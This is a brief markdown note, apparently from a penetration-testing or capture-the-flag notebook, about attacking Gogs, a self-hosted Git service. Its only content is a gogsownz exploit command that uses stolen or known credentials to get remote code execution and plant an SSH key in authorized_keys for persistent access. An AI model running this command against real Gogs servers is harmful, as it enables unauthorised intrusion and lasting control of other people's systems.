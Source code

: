 # GOGs

{% embed url="https://gogs.io/" %}

## gogsownz

```text
python3 gogsownz.py localhost:3000 -v --creds 'AogiriTest:test@aogiri123' -n i_like_gogits --rce "echo $(cat ../git.pub) >> ~/.ssh/authorized_keys" --cleanup  
```

